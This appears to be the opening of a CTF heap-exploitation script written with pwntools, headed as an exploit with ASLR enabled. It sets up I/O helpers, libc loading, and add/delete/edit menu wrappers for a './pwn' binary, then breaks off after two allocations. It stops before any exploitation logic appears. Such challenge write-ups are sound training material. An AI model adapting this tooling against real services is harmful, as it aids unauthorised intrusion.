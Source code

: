## exp（开启 ASLR）

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'



#p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,idx,content):
    sla('choice >> \n',str(1))
    sla('wlecome input your size of weapon: ',str(size))
    sla('input index: ',str(idx))
    sa('input your name:\n',content)

def delete(idx):
    sla('choice >> \n',str(2))
    sla('input idx :',str(idx))

def edit(idx,content):
    sla('choice >> \n',str(3))
    sla('input idx: ',str(idx))
    sa('new content:\n',content)

def pwn():
    add(0x60,0,'a')
    add(0x60,1,'b')
```
